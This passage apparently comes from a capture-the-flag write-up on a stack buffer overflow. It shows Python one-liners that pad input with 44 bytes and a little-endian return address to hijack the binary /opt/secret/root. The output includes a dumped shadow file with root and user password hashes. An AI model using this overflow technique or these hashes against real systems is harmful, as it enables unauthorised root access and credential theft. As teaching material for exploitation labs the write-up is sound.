 ```
   0x08048503 <+56>:    ret
End of assembler dump.
```

What we're interested in is the hex memory addresses. So from what we know all we have to do is provide 44 characters, and then "0x080484cb" and the shell function should execute, let's try it!

Note: Modern CPU architectures are "little endian" meaning bytes are backwards. For example "0x080484cb" would become "cb840408"

We can use python to do this, as it allows a nice way of converting.

### Method 1 - Manual conversion:

`python -c 'print "A"*44 + "\xcb\x84\x04\x08"'` will output the payload we want, but it requires manually converting to little endian

### Method 2 - Struct:

`python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'`

It requires importing a module but struct.pack allows us to automatically convert memory to little endian.

We print 44 random characters(in this case A) and then our memory address in little endian, and shell should execute. This can be tested by piping the output in to the binary `python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root` should provide you with this output.

```
root:$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:18277:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18277:0:99999:7:::
uuidd:*:18277:0:99999:7:::
papa:$1$ORU43el1$tgY7epqx64xDbXvvaSEnu.:18277:0:99999:7:::
Segmentation fault
```
